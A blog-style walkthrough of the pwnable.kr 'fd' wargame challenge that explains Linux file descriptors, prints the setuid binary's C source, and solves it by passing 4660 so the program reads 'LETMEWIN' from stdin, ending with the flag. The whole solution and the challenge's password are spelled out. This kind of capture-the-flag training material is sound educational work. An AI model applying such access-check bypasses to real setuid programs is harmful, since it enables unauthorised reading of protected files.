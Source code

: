 ```yaml
---
layout: post
title: "File Descriptors"
excerpt: "pwnable.kr challenge: fd"
categories: [pwn practice]
---
```


> Mommy! what is a file descriptor in Linux?
>
> * Try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw
>
> `ssh fd@pwnable.kr -p2222` (pw:guest)

### Given

All we're given in this is a ssh login command, and it's password

* `ssh fd@pwnable.kr -p2222 (pw:guest)`

The text hint and the title of the challenge suggest that we will be dealing with something involving manipulating or exploting file descriptors,
* See [Wikipedia](https://en.wikipedia.org/wiki/File_descriptor).
* See [SO "file descriptors in simple terms"](https://stackoverflow.com/questions/5256599/what-are-file-descriptors-explained-in-simple-terms) at the time of this writing the the top answer kinda sucks, so ymmv.

### First, lets get on the box

```bash
...
fd@pwnable:~$
```

OK - we're on.

### Look around

```bash
fd@pwnable:~$ ls -alrt
total 40
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
d---------   2 root   root 4096 Jun 12  2014 .bash_history
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x 116 root   root 4096 Nov 12 21:34 ..
```

We can ignore most of that stuff. What's interesting to us are these entries:

```bash
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
```

### cat flag -- profit?
Nope - can't do that. Notice ownership on the `flag`  file:

* owner = `fd_pwn`
* group = `root`

So, root owned and belongs to the `fd_pwn` group, which we are not a part of:

```bash
cat /etc/group | grep fd_pwn
fd_pwn:x:1006:
```

### Inspect files

So that leaves us with `fd` and `fd.c`. In the above, `fd` is executable. Given the naming conventions, it would seem that `fd` is a compiled binary for the `fd.c` file.

Checking `fd`'s type:

```bash
file fd
fd: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=c5ecc1690866b3bb085d59e87aad26a1e386aaeb, not stripped
```

Ok, so it is an executable. Specifically, it's a `32-bit` executable, that when ran, will run as the identity of the owner of the file `... setuid ...`.

### Run it

```bash
fd@pwnable:~$ ./fd
pass argv[1] a number

fd@pwnable:~$ ./fd 0
learn about Linux file IO
```

So, if you give it any old number, it just spits out a message about "go learn about linux I/O". Let's looks at what we think is the source code first.

### Examine (given) source
`cat fd.c` gives us:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

So we see we're working with a single function program, which just consists of a `main` function.

First, it's checking if we passed the executable at least one arg:

```c
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
```
Then, it takes the first thing we give it, converts it to a `int`, and then subtracts `0x1234` from it, and stores it in a variable called `fd`:

```c
int fd = atoi( argv[1] ) - 0x1234;
```

Then, it reads 32 bytes from the calculated `fd` above to the `char buf[32]`.

Lastly, it checks if the value in `buf` is equal to `LETMEWIN\n`, and if so, `cat`s the flag:

```c
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
```

### Takeaway

So, we need to somehow get `buf` to have `LETMEWIN\n`. The key part here is that `buf` is getting read from whatever file descriptor is calculated based on our input minus `0x1234`.

In linux, STDIN is also `fd 0`. So, if we can get our input, minus `0x1234` to be `0`, we should be able to just type the password in to the terminal, hit enter, and profit.

### Python -- easy hex to dec

Can use python to easily see what the value of `0x1234` is in decimal:

```bash
python -c "print(0x1234)"
4660
```

### Solve

```bash
./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Flag is `mommy! I think I know what a file descriptor is!!`.
